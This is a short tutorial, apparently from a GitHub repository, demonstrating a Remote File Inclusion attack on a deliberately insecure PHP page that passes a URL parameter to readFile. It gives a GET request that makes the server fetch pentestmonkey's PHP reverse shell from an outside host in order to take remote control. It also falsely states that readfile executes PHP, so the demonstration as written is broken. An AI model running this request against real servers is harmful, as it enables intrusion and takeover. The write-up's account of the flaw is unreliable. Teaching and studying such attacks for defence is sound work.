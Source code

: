 This website was made to pull data from text files and **render** them to a webpage.

```php
// Insecure PHP file that allow RFI attack

<?php

$file = $_GET['page'];
if (!empty($file)) {
    readFile($file);
}

?>
```
**explaining script** : This script open the file included on the url **parameter** ``page``. The file would be read with ``readFile`` function which can execute **php** script.


Let's inject a malicious **PHP** script. I found this [reverse shell script](https://www.imperva.com/learn/application-security/reverse-shell/) open-sourced in github ``https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``

We inject this as following 

``GET https://localhost:8080/index.php?page=https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``

A successful **RFI** attack will inject this script into the server which will let you remotely control the server.

<figure align="center">
  <img src="pictures/LFI RFI/c99.jpg" alt="C99">
  Figure 1: Successful inject reverse shell (C99 Shell)
</figure>
